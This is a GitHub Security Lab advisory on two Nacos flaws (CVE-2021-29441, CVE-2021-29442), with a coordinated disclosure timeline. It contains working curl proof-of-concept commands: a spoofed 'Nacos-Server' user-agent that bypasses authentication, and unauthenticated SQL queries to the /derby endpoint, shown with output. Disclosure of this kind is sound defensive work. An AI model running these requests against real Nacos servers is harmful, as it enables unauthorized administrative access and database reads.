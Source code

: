 <header class="post-header d-block mb-6">
      <div class="date text-mono f5 my-3">April 27, 2021</div>
      <h1 class="my-2 h00-mktg lh-condensed">GHSL-2020-325: Authentication bypass in Nacos - CVE-2021-29441, CVE-2021-29442</h1>

      
      
      
      
      

      

      <a target="_blank" class="sc-frDJqD SgxRc d-inline-flex flex-row flex-items-center text-gray" href="https://github.com/pwntester">
        <img class="mr-3" src="https://avatars.githubusercontent.com/u/125701?s=35" height="35" width="35">
        <span>Alvaro Munoz</span>
      </a>
    </header>

    <main id="content" class="markdown-body" aria-label="Content">
      
<h2 id="coordinated-disclosure-timeline">Coordinated Disclosure Timeline</h2>
<ul>
  <li>2020-12-10: Report sent for internal review.</li>
  <li>2020-12-12: Report sent to security@service.alibaba.com</li>
  <li>2021-02-19: Requested status update with no response.</li>
  <li>2021-03-16: Requested status update with no response.</li>
  <li>2021-03-14: Disclosure deadline reached.</li>
  <li>2021-04-08: Requested new Alibaba security contact via <a href="https://twitter.com/pwntester/status/1380176999247978500">tweet</a></li>
  <li>2021-04-08: Alibaba Security Response Center (ASRC) respond to the original report after being mentioned on Twitter. They claim the original report went to the spam box and that “the mailbox rule needs to be checked”.</li>
  <li>2021-04-08: ASRC states that both issues were later reported by a different security researcher and that are now fixed in 1.4.1.</li>
  <li>2021-04-14: Publication as per our <a href="https://securitylab.github.com/advisories/#policy">disclosure policy</a>.</li>
</ul>

<h2 id="summary">Summary</h2>

<p>When enabled, Nacos authentication can be bypassed which enables an attacker to access any console or REST API endpoints.</p>

<h2 id="product">Product</h2>

<p>Nacos</p>

<h2 id="tested-version">Tested Version</h2>

<p>Latest commit at the date of reporting (b8b57dc)</p>

<h2 id="details">Details</h2>

<h3 id="issue-1-authentication-bypass-ghsl-2020-325">Issue 1: Authentication bypass (GHSL-2020-325)</h3>

<p>When configured to use authentication (<code class="language-plaintext highlighter-rouge">-Dnacos.core.auth.enabled=true</code>) Nacos uses the <a href="https://github.com/alibaba/nacos/blob/develop/core/src/main/java/com/alibaba/nacos/core/auth/AuthFilter.java">AuthFilter</a> servlet filter to enforce authentication. This filter has a <a href="https://github.com/alibaba/nacos/blob/develop/core/src/main/java/com/alibaba/nacos/core/auth/AuthFilter.java#L78-L81">backdoor</a> that enables Nacos servers to bypass this filter and therefore skip authentication checks. This mechanism relies on the <code class="language-plaintext highlighter-rouge">user-agent</code> HTTP header so it can be easily spoofed.</p>

<p>The following request to the <code class="language-plaintext highlighter-rouge">configuration</code> endpoint gets rejected as we are not providing any credentials:</p>
<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>❯ curl -X POST "http://127.0.0.1:8848/nacos/v1/cs/configs?dataId=nacos.cfg.dataIdfoo&amp;group=foo&amp;content=helloWorld"
{"timestamp":"2020-12-02T14:33:57.154+0000","status":403,"error":"Forbidden","message":"unknown user!","path":"/nacos/v1/cs/configs"}                                                                                                       
</code></pre></div></div>

<p>However the following one gets accepted by using the <code class="language-plaintext highlighter-rouge">Nacos-Server</code> user-agent header:</p>
<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>❯ curl -X POST -A Nacos-Server "http://127.0.0.1:8848/nacos/v1/cs/configs?dataId=nacos.cfg.dataIdfoo&amp;group=foo&amp;content=helloWorld"
true 
</code></pre></div></div>

<h4 id="impact">Impact</h4>

<p>This issue may allow any user to carry out any administrative tasks on the Nacos server.</p>

<h3 id="issue-2-missing-authentication-check-ghsl-2020-326">Issue 2: Missing Authentication check (GHSL-2020-326)</h3>

<p>The <a href="https://github.com/alibaba/nacos/blob/57459227863485d064ff25b3d5e24e714dcf218f/config/src/main/java/com/alibaba/nacos/config/server/controller/ConfigOpsController.java"><code class="language-plaintext highlighter-rouge">ConfigOpsController</code></a> lets the user perform management operations like querying the database or even wiping it out. While the <a href="https://github.com/alibaba/nacos/blob/57459227863485d064ff25b3d5e24e714dcf218f/config/src/main/java/com/alibaba/nacos/config/server/controller/ConfigOpsController.java#L133-L135"><code class="language-plaintext highlighter-rouge">/data/remove</code></a> endpoint is properly protected with the <code class="language-plaintext highlighter-rouge">@Secured</code> annotation, the <a href="https://github.com/alibaba/nacos/blob/57459227863485d064ff25b3d5e24e714dcf218f/config/src/main/java/com/alibaba/nacos/config/server/controller/ConfigOpsController.java#L99-L100"><code class="language-plaintext highlighter-rouge">/derby</code></a> endpoint is not protected and can be openly accessed by unauthenticated users.</p>

<p>For example, the following request will list the tables of the database:</p>
<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>❯ curl -X GET 'http://console.nacos.io/nacos/v1/cs/ops/derby?sql=select+st.tablename+from+sys.systables+st'
{"code":200,"message":null,"data":[{"TABLENAME":"APP_CONFIGDATA_RELATION_PUBS"},{"TABLENAME":"APP_CONFIGDATA_RELATION_SUBS"},{"TABLENAME":"APP_LIST"},{"TABLENAME":"CONFIG_INFO"},{"TABLENAME":"CONFIG_INFO_AGGR"},{"TABLENAME":"CONFIG_INFO_BETA"},{"TABLENAME":"CONFIG_INFO_TAG"},{"TABLENAME":"CONFIG_TAGS_RELATION"},{"TABLENAME":"GROUP_CAPACITY"},{"TABLENAME":"HIS_CONFIG_INFO"},{"TABLENAME":"PERMISSIONS"},{"TABLENAME":"ROLES"},{"TABLENAME":"SYSALIASES"},{"TABLENAME":"SYSCHECKS"},{"TABLENAME":"SYSCOLPERMS"},{"TABLENAME":"SYSCOLUMNS"},{"TABLENAME":"SYSCONGLOMERATES"},{"TABLENAME":"SYSCONSTRAINTS"},{"TABLENAME":"SYSDEPENDS"},{"TABLENAME":"SYSDUMMY1"},{"TABLENAME":"SYSFILES"},{"TABLENAME":"SYSFOREIGNKEYS"},{"TABLENAME":"SYSKEYS"},{"TABLENAME":"SYSPERMS"},{"TABLENAME":"SYSROLES"},{"TABLENAME":"SYSROUTINEPERMS"},{"TABLENAME":"SYSSCHEMAS"},{"TABLENAME":"SYSSEQUENCES"},{"TABLENAME":"SYSSTATEMENTS"},{"TABLENAME":"SYSSTATISTICS"},{"TABLENAME":"SYSTABLEPERMS"},{"TABLENAME":"SYSTABLES"},{"TABLENAME":"SYSTRIGGERS"},{"TABLENAME":"SYSUSERS"},{"TABLENAME":"SYSVIEWS"},{"TABLENAME":"TENANT_CAPACITY"},{"TABLENAME":"TENANT_INFO"},{"TABLENAME":"USERS"}]}% 
</code></pre></div></div>

<p>These endpoints are only valid when using embedded storage (derby DB) so this issue should not affect those installations using external storage (e.g. mysql)</p>

<h2 id="cve">CVE</h2>
<ul>
  <li>CVE-2021-29441</li>
  <li>CVE-2021-29442</li>
</ul>

<h2 id="credit">Credit</h2>

<p>This issue was discovered and reported by GHSL team member <a href="https://github.com/pwntester">@pwntester (Alvaro Muñoz)</a>.</p>

<h2 id="contact">Contact</h2>

<p>You can contact the GHSL team at <code class="language-plaintext highlighter-rouge">securitylab@github.com</code>, please include a reference to <code class="language-plaintext highlighter-rouge">GHSL-2020-325</code> and <code class="language-plaintext highlighter-rouge">GHSL-2020-326</code> in any communication regarding this issue.